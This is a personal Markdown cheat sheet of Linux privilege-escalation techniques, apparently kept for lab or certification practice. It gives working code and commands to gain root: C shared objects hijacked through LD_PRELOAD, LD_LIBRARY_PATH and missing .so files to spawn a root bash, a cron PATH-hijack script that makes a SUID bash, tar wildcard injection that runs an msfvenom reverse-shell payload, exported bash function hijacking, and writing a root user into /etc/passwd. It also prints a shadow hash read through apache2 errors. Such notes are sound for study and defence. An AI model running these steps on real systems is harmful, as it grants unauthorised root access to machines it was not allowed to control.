 # LINUX Privesc notes 

- linux smart enum script - https://github.com/diego-treitos/linux-smart-enumeration, linpeas can be used too
- reverse shell suggester suggester - https://github.com/mthbernardes/rsg
- Cheatsheet - https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/

## kernel exploit 
- searchsploitlinuxkernel 2.6 privesc debian
- ./linux-exploit-suggester-2.pl –k 2.6.32 (https://github.com/jondonas/linux-exploit-suggester-2)

## services running as root
- ps aux | grep '^root' (to list services running as root)
- use --version flag to get the exact version of the service 
- search exploits - exploitdb,google,github etc 

## weak file perms 
- find /etc -maxdepth 1 -writable -type f (list all wirtable files)
- find /etc -maxdepth 1 -readable -type f (list all readable files)
- find / -executable -writable -type d 2- /dev/null (list directories that can be written to)

-check the /etc/shadow and the /etc/password file, if they are read/write-able (the hash in /etc/password has precedence over /etc/shadow)
- we can also append a new row to /etc/passwd for a new user with uid,gid same as root

## backups 
- valuable info as backups 
- dirs to check - /home/user, /, /var/backups, /tmp

## sudo 
- sudo su (if no restrictions on programs that can be executed with sudo)
other ways:
$ sudo -s
$ sudo -i
$ sudo /bin/bash
$ sudo passwd

- sudo -l (list programs this user can & cannot execute with sudo priv)
- then use https://gtfobins.github.io/ to get escape sequence of that program 

## using errors to view restricted files
```
$ sudo apache2 -f /etc/shadow 
Syntax error on line 1 of /etc/shadow:
Invalid command 'root:$6$Tb/euwmK$OXA.dwMeOAcopwBl68boTG5zi65wIHsc84OWAIye5VITLLtVlaXvRDJXET..it8r.jbrlpfZeMdwD3B0fGxJI0:17298:0:99999:7:::', perhaps misspelled or defined by a module not included in the server configuration
```

## SUID & SGID
- find / -type f \\( -perm -u+s -o -perm -g+s \\) -exec ls -l {} \\; 2> /dev/null (to find suid,sgid files)
- get names and versions of these programs and search for their exploits searchsploit, github, google

## Environment variables 
### LD_PRELOAD (loads the shared obj specified before others)
- sudo -l (check env_reset and whether env_keep includes LD_PRELOAD)
- create a file like:
```
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>
void _init() {
    unsetenv("LD_PRELOAD");
    setresuid(0,0,0);
    system("/bin/bash -p");}
```
- compile it to .so (shared object)
```
gcc -fPIC -shared -nostartfiles -o /tmp/preload.so preload.c
```
- sudo LD_PRELOAD=/tmp/preload.so apache2 (running any sudo program like this will give root shell)

### LD_LIBRARY_PATH (searches for shared libraries in given path)
- ldd /usr/sbin/apache2 (prints the shared libraries used by a program)
- choose one shared library (its a hit or miss so try diff libs till it works)
- create a file 
```
#include <stdio.h>
#include <stdlib.h>
static void hijack() __attribute__((constructor));
void hijack() {
    unsetenv("LD_LIBRARY_PATH");
    setresuid(0,0,0);
    system("/bin/bash -p");}
```
- compile it same name as shared lib 
```
gcc -o libcrypt.so.1 -shared -fPIC library_path.c
```
- sudo LD_LIBRARY_PATH=. apache2 (giving path as current dir and root shell is obtained)

## CronJobs
- scripts that can be run as root in time intervals
- /var/spool/cron/ or /var/spool/cron/crontabs/ (user crontab)
- /etc/crontab (system wide crontabs)
- try to write to script run as cronjob or replace it with own script
If a cronjob program/script does not use an absolute path, and one of the PATH directories is writable by our user, we may be able to create a program/script with the same name as the cronjob for eg:
```
#!/bin/bash 
cp /bin/bash /tmp/rootbash
chmod +s /tmp/rootbash
 ``` 
then give it executable permissions (ensure that it is in a directory thats listed in PATH before the actual cronjob scrript)

## Wildcard and Filenames
- --option=key=value (we can create filenames like this to give complex options GTFOBins for more options)
- if a command in the cronjob script runs with wildcard char * 
eg:
```
$ cat /usr/local/bin/compress.sh 
#!/bin/sh
cd /home/user
tar czf /tmp/backup.tar.gz *
```
gtfobins tells us that tar can use checkpoint flag
We use msfvenom to make an elf payload for reverse shell
and create two files :
```
$ touch /home/user/--checkpoint=1
$ touch /home/user/--checkpoint-action=exec=shell.elf
```
listening with nc will give root shell

## SUID/SGID contd
- check suid/sgid files
### shared objects
- if a file name looks like it uses shared objs ('so') that it cant find, run strace on it 
- if it looks for a .so file and isnt able to find it, compile our own with code to spawn a root shell with name as the .so script wants 
eg:
```
#include <stdio.h>
#include <stdlib.h>
static void inject() __attribute__((constructor));
void inject() {
    setuid(0);
    system("/bin/bash -p");}
```
running suid script will give root

### incomplete PATH 
- if it doesnt use full sys path for a command, compile code to spawn root with name as that command in a dir thats early in $PATH
similar code to that above 
running suid script will give root

### export functions ( bash < 4.2-048)
- if bash lower than 4.2-048 
in eg: a suid script uses /usr/bin/service 
- we can create func with name /usr/bin/service and export it 
```
$ function /usr/sbin/service { /bin/bash -p; }
$ export –f /usr/sbin/service
```
running the suid script will give root

## SHELLOPTS & PS4

## Look for creds in bash_history and config files

## NFS
- if a mount dir has option no_root_sqaush 
- move a rev shell script with suid bit set in that dir from ur pc 
- exxecuting that will give root shell 
